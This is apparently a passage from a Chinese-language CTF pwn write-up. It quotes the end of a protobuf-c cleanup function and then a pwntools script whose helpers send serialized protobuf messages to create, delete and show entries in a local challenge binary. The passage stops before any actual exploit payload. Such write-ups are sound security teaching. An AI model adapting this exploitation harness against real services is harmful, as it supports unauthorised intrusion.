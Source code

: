 ```c
error_cleanup_during_scan:
	do_free(allocator, rv);
	for (j = 1; j <= which_slab; j++)
		do_free(allocator, scanned_member_slabs[j]);
	if (required_fields_bitmap_alloced)
		do_free(allocator, required_fields_bitmap);
	return NULL;
}
```

#### 动态分析
首先编写交互逻辑，主要是将create函数和show函数用python实现出来
```python
from pwn import *
import heybro_pb2

p = process("./pwn")

context.log_level = 'debug'
#context.terminal = ['tmux','splitw','-h']

def create(idx,content):
    data = heybro_pb2.heybro()
    data.whattodo = 1
    data.whatcon = content
    data.whatidx = idx
    data.whatsize = 0
    data.whatsthis = 0
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def delete(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 2
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def show(idx):
    data = heybro_pb2.heybro()
    data.whattodo = 3
    data.whatcon = b'0'
    data.whatidx = idx
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
    p.send(data)
 
def do_nothing(content):
    data = heybro_pb2.heybro()
    data.whattodo = 0
    data.whatcon = content
    data.whatidx = 1
    data.whatsize = 1
    data.whatsthis = 1
    data = data.SerializeToString()
    p.recvuntil(b'WANT?\n')
```